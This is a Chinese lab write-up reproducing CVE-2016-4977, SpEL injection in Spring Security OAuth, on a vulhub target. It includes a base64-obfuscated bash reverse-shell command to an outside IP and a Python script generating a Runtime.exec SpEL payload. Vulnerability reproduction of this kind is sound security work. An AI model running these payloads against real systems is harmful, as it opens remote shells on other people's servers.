 # Spring Security OAuth2-远程代码执行 (CVE-2016-4977)

### 0x00 前言

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

**影响版本：**

```
Spring Security OAuth 2.3到2.3.2
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.0到2.0.14
```

**利用条件：**

知道用户名和密码

### 0x01 环境搭建

这里使用vulhub漏洞靶场



用户名和密码，`admin:admin`

### 0x02 复现步骤

1、访问`http://your-ip:8080/oauth/authorize?response_type=${12*2}&client_id=acme&scope=openid&redirect_uri=http://test`

![image-20230328213515907](https://s2.loli.net/2023/03/28/6sPiMq1bQx2Jjfy.png)

可以发现{12*2}表达式的值已经输出

2、利用脚本生成反弹shell的poc

这里要注意：Java反弹shell的限制与绕过方式

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

![image-20230328213323037](https://s2.loli.net/2023/03/28/4ziVGAWmByJh8rq.png)

poc.py

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

运行脚本后，生成了一大串SpEL语句

3、将生成的这个SpEL语句填入表达式中，访问成功弹回shell：

![image-20230328213634450](https://s2.loli.net/2023/03/28/1wxY5vzV6udIDiA.png)

### 0x03 修复建议

1、更新官方最新补丁